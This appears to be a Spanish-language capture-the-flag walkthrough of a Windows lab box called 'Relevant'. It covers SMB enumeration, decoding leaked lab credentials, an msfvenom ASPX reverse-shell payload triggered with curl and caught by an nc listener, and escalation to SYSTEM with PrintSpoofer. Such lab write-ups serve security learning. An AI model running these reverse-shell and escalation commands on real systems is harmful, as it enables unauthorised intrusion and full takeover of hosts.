# Relevant

## Nmap




### Nmap SMB


## Threader3000 
Permite ver los puertos abiertos

    threader3000



## Fuzzing

    gobuster dir -u http://10.10.48.117 -w Desktop/common.txt -x php 



## Enum4linux



## SMB

    smbmap -H 10.10.48.117



    smbclient -L 10.10.48.117



Entramos en el usuario y descargamos el archivo ``passwords.txt``

    smbclient //10.10.48.117/nt4wrksv -N



Contenido del archivo



Decodificamos usando CyberChef


    Bob - !P@$$W0rD!123
    Bill - Juw4nnaM4n420696969!$$$

Tenemos acceso web al archivo subido en SMB


Creamos una aspx reverse shell, para subirla el servidor

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.67.209 LPORT=53 -f aspx -o pwn.aspx



Subimos el archivo



Nos conectamos a la reverse shell

    curl http://10.10.179.154:49663/nt4wrksv/pwn.aspx

    nc -nvlp 53




Buscamos el archivo ``user.txt``



Vemos nuestros privilegios


Encontramos ``SeImpersonatePrivilege``, existe un exploit que nos permite explotar esta vulnerabilidad

Clonamos el siguiente repostirio

    git cone https://github.com/dievus/printspoofer.git

Subimos el ``.exe`` al servidor samba


Lo ejecutamos y ya seremos ``nt authority\system``


